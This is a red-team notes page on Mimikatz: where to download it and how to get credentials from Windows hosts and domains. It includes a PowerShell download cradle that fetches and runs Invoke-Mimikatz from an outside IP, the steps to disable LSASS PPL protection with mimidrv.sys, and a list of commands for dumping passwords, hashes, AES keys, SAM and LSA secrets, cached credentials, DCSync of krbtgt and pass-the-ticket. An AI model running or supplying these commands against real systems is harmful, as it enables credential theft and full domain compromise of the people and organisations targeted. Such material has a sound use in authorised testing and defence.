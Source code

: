 ## Downloading Mimikatz

The mimikatz project by Benjamin Delphy is truly extraordinary. It can be used to extract all sorts of information from a target once you have SYSTEM level privileges. Here we'll look at some basic commands aswell as their OPSEC concerns.

Note: The Powershell version sometimes has weird compatability issues. There's multiple versions floating about.

 https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1 

 https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1 

Download the compiled binaries here:

 https://github.com/ParrotSec/mimikatz 

```powershell
# Load mimikatz into memory from Powershell and run a command
IEX((New-Object System.Net.WebClient).downloadString('http://10.10.10.10/Invoke-Mimikatz.ps1'))
Invoke-Mimikatz -Command 'sekurlsa::logonpasswords'

# Run the binary on the target
mimikatz.exe 
```

## Oh no, they've protected LSASS with PPL

PPL (Protected Process Light) is an additional layer of protection that transcends even a SYSTEM level user. It is used to protect LSASS by disallowing the modification, patching, or reading of memory in the region. We can confirm if PPL is enabled by using Powershell and checking the registry key. A result of 1 indicates it is active.

```powershell
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```

PPL is not activated by default. It is controlled using a singular bit which resides in the EPROCESS kernel object that is associated with the target process. Therefore, because Benjamin Delphy is incredibly smart, he developed the `mimidrv.sys` driver which can be used to execute code in kernel space, disabling the LSA protection and allowing us to obtain credentials normally.

We'll need to be SYSTEM or at least local administrator, as this comes with the `SeLoadDriverPrivilege` privilege to load drivers. The mimikatz.exe binary and mimidrv.sys file must be in the same location. Upon starting mimikatz, run the following commands:

```bash
mimikatz !+ # Loads the driver
mimikatz !processprotect /process:lsass.exe /remove # Removes the protection bit
mimikatz sekurlsa::logonpasswords # We can now dump passwords
```

You should always consider the OPSEC issues with this and ensure to re-configure the client environment!

## Useful Commands

Here are my most memorable commands from my notes. There's tons more, though, so don't be afraid to look further.

```powershell
# Escalate to SYSTEM from HIGH privilege (Admin) session
privlege::debug 

# Dump cached LSASS credentials - Dumps NTLM hashes 
sekurlsa::logonpasswords

# Dump ekeys from LSASS - Consider this an upgrade on finding NTLM hashes. Using AES128/256 keys is more stealthy as they're default in domain environments since Windows Server 2012
sekurlsa::ekeys

# Dump the SAM hive
lsadump::sam

# Dump out secrets from the local security authority
lsadump::secrets

# Dump out any Domain Cached Credentials. These are $DCC2$ hashes and can be cracked with -m 2100 in hashcat
lsadump::cache

# View stored credentials in the Credential Manager
vault::list

# Purge your ticket
kerberos::purge

# Pass in a .kirbi to your current users cache
kerberos::ptt C:\my_tgt.kirbi

# DCSync to dump out the krbtgt hash amongst others
lsadump::dcsync /domain:MATRIX.local /user:MATRIX\krbtgt

# Create a dump of lsass.exe from task manager and then transfer it back to yourself locally. This allows you to run mimikatz on it without transferring it to the target
sekurlsa::minidump <path to file.dmp>
```